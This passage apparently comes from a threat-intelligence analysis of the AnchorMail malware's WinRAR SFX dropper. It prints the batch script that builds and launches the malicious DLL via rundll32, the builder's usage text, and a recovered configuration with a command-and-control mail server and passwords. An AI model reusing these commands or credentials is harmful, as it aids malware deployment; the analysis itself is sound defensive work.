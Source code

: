 
delegate_x64.dll
3358720
47f29e3b0fe89968ddb9517fd2378115


Scroll to view full table 
The initial file executed by the dropper is the script file 123.vbs, which runs the script file 1.bat, followed by 2.bat.
File 1.bat contains the following script:
@echo off
buildDelegate_x64.exe --conf=conf.txt --source=delegate_x64.dll --target=delegat.dll
TIMEOUT /T 3
rundll32 c:\windows\tasks\delegat.dll,dllmain
TIMEOUT /T 3
This script executes the file buildDelegate_x64.exe with files conf.txt, delegate_x64.dll and delegat.dll passed as parameters.
The executable file buildDelegate_x64.exe is a builder tool for the AnchorMail malware and designed to inject a compiled template binary with specified configuration values. This allows the operators of AnchorMail to easily update the configuration of AnchorMail samples without having to recompile the malware from scratch each time. AnchorMail’s predecessor, AnchorDNS, was observed using a similar system.
If executed without parameters, via the command line, buildDelegate_x64.exe outputs the following information:
usage:  lackeyBuilder(.exe) --conf=<configure file> --source=<source file> --target=<target file>
config file fields:
period=<number of minutes between launch, max value (60 * 24 -1)>
mail=<email data>
email data: {user|password|imap server[:port]|smtp server[:port]} or {destination email address}
if first symbol of server is '*' - not using SSL for connecting
example conf file:
period=35
mail={[email protected]|myPwd|imap.usa.com|smtp.usa.com}
mail={[email protected]|pwd12345|*imap.australian.com|*smtp.australian.com}
mail={[email protected]}
mail={[email protected]}
When executed with the correct parameters, buildDelegate_x64.exe takes the source DLL, in this case delegate_x64.dll, which is a template for the AnchorMail malware, and modifies it with the configuration values which are specified in the file conf.txt. The builder parses the contents of conf.txt, and uses them to construct a configuration block for AnchorMail.
In this instance, conf.txt contains the following contents:
period=10
mail={[email protected]|ohvohNgaeT6Shoche8Ei|15906-28547.bacloud.info|15906-28547.bacloud.info}
mail={[email protected]|doo9ahxuuBug9cuuV8ga|15906-28547.bacloud.info|15906-28547.bacloud.info}
mail={[email protected]}
The builder then generates a 16-byte XOR key and uses this to encrypt the configuration block. The configuration block and the XOR key are then injected into the template binary, which contains the marker strings ‘YYYYYYYYYYYYYYYY’ and ‘ZZZZZZZZZZZZZZZZ’ to indicate the locations in the binary where the configuration block and key should be written to. This updated binary is then saved as file delegat.dll.
The script then executes the generated DLL, delegat.dll, using the in-built Windows rundll32 command.
Finally, the script file 2.bat is executed which deletes all the dropped files except for the generated file delegat.dll.
Select samples using the WinRAR SFX Dropper:
